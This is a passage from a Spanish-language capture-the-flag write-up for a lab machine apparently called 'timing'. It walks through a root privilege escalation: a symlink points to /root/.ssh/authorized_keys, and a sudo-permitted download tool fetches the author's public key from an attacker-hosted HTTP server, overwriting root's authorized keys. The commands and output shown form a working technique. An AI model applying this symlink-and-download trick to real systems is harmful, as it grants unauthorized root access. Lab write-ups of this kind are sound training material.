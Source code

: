 ```sh
aaron@timing:~$ ls -l
total 8
lrwxrwxrwx 1 aaron aaron 26 Jun 28 17:29 id_rsa.pub -> /root/.ssh/authorized_keys
-rw-r--r-- 1 root  root  20 Jun 28 17:21 test.txt
-rw-r----- 1 root  aaron 33 Jun 28 14:09 user.txt
aaron@timing:~$ cat id_rsa.pub 
cat: id_rsa.pub: Permission denied
```
Desde mi máquina local me creo un par de claves:
```sh
> cd /root/.ssh
> ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /root/.ssh/id_rsa
Your public key has been saved in /root/.ssh/id_rsa.pub
The key fingerprint is:
SHA256:iXrwwmYtYMd6ZDN6OjVnBiY/ka5GJeRFoi/bt2QTBkQ root@parrot
The key's randomart image is:
+---[RSA 3072]----+
| .E..            |
| o...            |
|.o.. .           |
| .+o*  . .       |
|. +B@o. S        |
| =.X*O+          |
|..+o#*+          |
|  +X *           |
| ....            |
+----[SHA256]-----+
> ls -l
total 8,0K
-rw------- 1 root root 2,6K jun 28 19:43 id_rsa
-rw-r--r-- 1 root root  565 jun 28 19:43 id_rsa.pub
```
Si mi llame pública (id_rsa.pub) la meto como authorized_keys en el directorio .ssh de la máquina víctima podré conectarme a esta como este usuario, como root, sin meter contraseña.

Así que bueno..voy a provocar que me descarge esta llave pública que acabo de crear para que gracias a ese permiso de sudo con netutils y el enlace simbólico la cambie.:
```sh
> python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
Y ahora en máquina objetivo:
```sh
aaron@timing:~$ sudo netutils
netutils v0.1
Select one option:
[0] FTP
[1] HTTP
[2] Quit
Input >> 1
Enter Url: http://10.10.14.8/id_rsa.pub
Initializing download: http://10.10.14.8/id_rsa.pub
File size: 565 bytes
Opening output file id_rsa.pub
Server unsupported, starting from scratch with one connection.
Starting download
```
```sh
aaron@timing:~$ ls -l
total 8
```